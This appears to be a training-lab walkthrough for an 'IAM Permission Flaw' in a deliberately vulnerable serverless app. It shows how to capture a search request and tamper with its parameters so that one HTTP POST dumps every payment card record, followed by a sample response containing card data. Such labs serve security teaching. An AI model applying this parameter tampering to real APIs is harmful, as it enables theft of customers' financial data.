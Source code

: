 # **IAM Permission Flaw**


### *  *

-------

#### Step 1:

* Access the [XML-Uploader](http://sls-training-ui.s3-website-us-east-1.amazonaws.com/) Application on the browser.

```commandline
http://sls-training-ui.s3-website-us-east-1.amazonaws.com/
```

* Register and Login to the Application

### *Note: The details provided CAN be fake and we highly recommend it!*

-------

#### Step 2:

* Once logged in, select the `Networks` tab that can be found in `developer tools`

* Click on the `Search` icon to search for information.

* Search for user related information. Copy the `URL` and `Params` for the request made in the `Networks` tab

-------

#### Step 3:

* Tamper the `Param` value to get all the `payment card` details from the database

```commandline
http POST https://a2to86jcrb.execute-api.us-east-1.amazonaws.com/api/bad_dynamo_search <<<'{
        "db": "2htw3dwxnc-payment-cards",
        "search_field": "card_number",
        "search_operator": "GT",
        "search_term": "*"
    }
```

### *It should return with a response similar to the one below:*

```commandline
HTTP/1.1 200 OK
Access-Control-Allow-Headers: Authorization,Content-Type,X-Amz-Date,X-Amz-Security-Token,X-Api-Key
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Length: 2169
Content-Type: application/json
Date: Tue, 09 Oct 2018 01:32:53 GMT
Via: 1.1 aa89533ad2ec5e0edba466c9920bd000.cloudfront.net (CloudFront)
X-Amz-Cf-Id: X8szCarsQAv9oUWSw82v9hpsA-QyfvP8PlDA1cIIgocKOITW2661dg==
X-Amzn-Trace-Id: Root=1-5bbc0545-5a84835cd05bd8b4bd31a502;Sampled=0
X-Cache: Miss from cloudfront
x-amz-apigw-id: OeXCzHEgoAMFqSw=
x-amzn-RequestId: 3db038ff-cb63-11e8-92a8-adaf88305995
{
    "search_results": [
        {
            "card_number": {
                "S": "4994684175713024"
            },
            "cardholder": {
                "S": "Amanda Smith"
            },
            "exp_date": {
                "N": "523"
            }
        }
    ]
}
```

---------

### Reading Material/References:
